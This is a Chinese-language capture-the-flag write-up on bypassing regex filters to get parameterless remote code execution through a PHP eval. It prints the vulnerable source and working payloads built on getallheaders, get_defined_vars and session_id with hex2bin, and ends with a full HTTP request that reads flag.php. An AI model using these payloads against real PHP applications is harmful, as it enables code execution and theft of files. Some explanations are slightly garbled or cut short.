git 泄露得到 index.php

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

`@eval` 的命令执行，但是过滤了伪协议，过滤了一些关键字。

在这里，正则表达式 `'/[a-z,]+((?R)?)/'` 匹配的是一个函数调用字符串，其中 `[a-z,]+` 表示函数名可以由多个小写字母或下划线组成，`((?R)?)` 表示函数调用可以有零个或多个参数，且参数可以是一个函数调用字符串。这里使用了递归子表达式 `(?R)`

举个例子，输入 `foo(bar(baz())`，正则表达式会匹配 `"bar(baz())"`，将其替换为空，得到 `"foo()"`

这里就是一道典型的无参 RCE，之前还没有看过，正好可以借着这道题目学习一下。

### 常见绕过姿势

#### 1、getallheaders()



`getallheaders()`返回所有的HTTP头信息，但是要注意的一点是这个函数返回的是一个数组，而eval()要求的参数是一个字符串，所以这里不能直接用，这时我们就要想办法将数组转换为字符串。正好`implode()`这个函数就能胜任。




`implode()`能够直接将`getallheaders()`返回的数组转化为字符串。
本地测试代码：

```php
<?php
	echo implode(getallheaders());
?>
```



这里是可以打印出我们所有的 Header 信息的。

如果题目的伪代码是长这样的话，可以通过 UA 或者其他 Header 去包含我们需要执行的命令即可 RCE

```php
<?php
	if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp']){
 		     eval($_GET['exp']);
	}
?>

```



#### 2、get_defined_vars()



该函数的作用是获取所有的已定义变量，返回值也是数组。不过这个函数返回的是一个二维数组，所以不能与 `implode` 结合起来用。将`get_defined_vars()` 的结果用 `var_dump()` 输出结果如下：

```php
<?php
	var_dump(get_defined_vars());
?>
```



可以看到用GET传入的参数会被显示在数组中的第一位：



不过这里有这么多的数组，我们也不需要全部查看是吧？那么使用 `current()` 函数就可以办成这个事情:



函数可以返回数组中的单元且初始指针指向数组的第一个单元。因为 GET 方式传入的参数存在该二维数组中的第一个一维数组（也就是上图 `array(7)` 中的第一个数组 `["_GET"]=> array(1) { ["get"]=> string(1) "a" }`），所以我们可以通过这个函数将其取出来（官方这个演示很详细了，可以自己看看）。

```php
<?php
    var_dump(current(get_defined_vars()));
?>
```

也就是通过这一种方式，可以构造出上述情景当中的 payload

```payload
?exp=eval(end(current(get_defined_vars())));&shell=phpinfo();
```



#### 3、session_id()



官方说：`session_id()` 可以用来获取/设置当前会话 ID。
那么可以用这个函数来获取 cookie 中的 php sessionid 了，并且这个值我们是可控的。
但其有限制：

文件会话管理器仅允许会话 ID 中使用以下字符：a-z A-Z 0-9 ,（逗号）和 - （减号）

解决方法：将参数转化为 16 进制传进去，之后再用 `hex2bin()` 函数转换回来就可以了。



所以，payload可以为：`?exp=eval(hex2bin(session_id()));`
但 `session_id` 必须要开启 session 才可以使用，所以我们要先使用 `session_start`。
最后，`payload：?exp=eval(hex2bin(session_id(session_start())));`

说到这里，这套组合拳还差了点东西，你还没写你要执行的代码！
不是才说道 `session_id()`可以获取 cookie 中的 phpsessionid，并且这个值我们是可控的吗？所以我们可以在 http 头中设置PHPSESSID 为想要执行代码的16进制：`hex("phpinfo();")=706870696e666f28293b`

所以最终组合拳这样打：


### 姿势一、array_reverse()

使用我们的第一个payload：`?exp=print_r(scandir(current(localeconv())));`看到flag.php的位置。

### 姿势二、session_id()

```http
GET /?exp=show_source(session_id(session_start())); HTTP/1.1
Host: ac98df9c-999f-4cf0-9021-0e2913f6b943.node4.buuoj.cn:81
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.41
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=flag.php
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,ja;q=0.5,zh-TW;q=0.4,no;q=0.3,ko;q=0.2
Connection: close


```


